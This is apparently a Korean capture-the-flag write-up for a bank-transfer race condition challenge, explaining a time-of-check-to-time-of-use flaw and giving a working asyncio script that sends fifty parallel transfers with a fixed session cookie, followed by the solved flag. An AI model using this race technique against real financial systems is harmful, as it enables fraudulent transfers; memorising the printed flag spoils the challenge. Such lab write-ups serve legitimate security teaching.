

# 은행 이체 Race Condition

## 문제 설명

이체 기능을 통해 `me`(내 잔액)의 돈을 `vault`로 옮길 수 있는 서비스.
초기 잔액은 `me=100`, `vault=0`이며, `vault`가 1,000 이상 쌓이면 `/flag`에서 flag를 획득할 수 있다.
단, `me`는 100원뿐이라 정상적인 순차 이체로는 아무리 반복해도 `vault`를 1,000까지 채울 수 없다.

## 분석

- 이체는 `GET /transfer?amt=100` 형태의 요청으로 처리되며, 응답으로 현재 잔액 상태를 그대로 반환한다.

```
ok me=0 vault=100
```

- 서버의 이체 로직은 아래와 같은 흐름으로 추정된다.

```
1. me >= amt 확인
2. me -= amt
3. vault += amt
```

- 1번(잔액 확인)과 2번(차감) 사이에 별도의 락(lock) 없이 순차 처리된다면, 동일한 세션으로 `amt=100` 요청을*동시에 다수 전송했을 때 각 요청이 아직 차감되지 않은 `me=100`을 동시에 확인하고 통과해버리는 TOCTOU(Time-Of-Check-Time-Of-Use) 취약점이 발생할 수 있다.
- 즉 100원 잔액 하나로 여러 번의 이체가 동시에 승인되어, `vault`에 실제 보유액보다 훨씬 많은 금액이 누적될 수 있다.
- 잔액은 세션(쿠키)별로 관리되므로 공격 시 세션 쿠키를 고정한 채 요청을 병렬로 발사해야 한다.

## 익스플로잇

### 동시 이체 요청 (asyncio + aiohttp)

세션 쿠키를 고정한 상태로 `/transfer?amt=100` 요청을 동시에 다수(예: 50개) 전송한다.

```python
import asyncio
import aiohttp

BASE_URL = "http://edu.arang.kr:9401"

COOKIE = "session=.eJx9j11uwyAQhO_Csy3xa8Bn6B2sBZbYqoNdY1RFUe5eHDWyKkXdJ_Zjdnb2TngEvy_bkIv3mDPpU5nnhoD3O5R9PPm-Fay8simQnow3XJIfIV2MIc2fdjiGh0NZdcxKWv-n_LFcpvSymY9mmFJcSH9_Lkv1Raw2QXOGre2UbKVRunVBQoshCB-pCl7EauZghuSR9IzWasg6LglTuVYHykxLLdOt7ISu0jxd1xlXOC87yfCJtxctGbd3dx18_a6cSy6EscxRHoQ2OnYOuGHOopSKWuqppoIL5ODQhOidClQB84JGiIbJX6-MX8_Y1e7xb_D3gR4_OpiHZg.amxd9A.StOk2Fa0m3nIxMXP7JaOv1Jx7wY; userid=admin"

AMOUNT = 100
CONCURRENT = 50

headers = {
    "Cookie": COOKIE
}


async def send_transfer(session, i):
    try:
        async with session.get(f"{BASE_URL}/transfer", params={"amt": AMOUNT}) as resp:
            text = await resp.text()
            print(f"[{i}] {text.strip()}")
    except Exception as e:
        print(f"[{i}] ERROR: {e}")


async def reset(session):
    async with session.get(f"{BASE_URL}/reset") as resp:
        print("RESET:", (await resp.text()).strip())


async def check_flag(session):
    async with session.get(f"{BASE_URL}/flag") as resp:
        print("FLAG CHECK:", (await resp.text()).strip())


async def main():
    async with aiohttp.ClientSession(headers=headers) as session:
        await reset(session)

        tasks = [send_transfer(session, i) for i in range(CONCURRENT)]
        await asyncio.gather(*tasks)

        await check_flag(session)


if __name__ == "__main__":
    asyncio.run(main())
```

### flag 획득



## 플래그

```
flag{cdec519942c0b7226d4f}
```
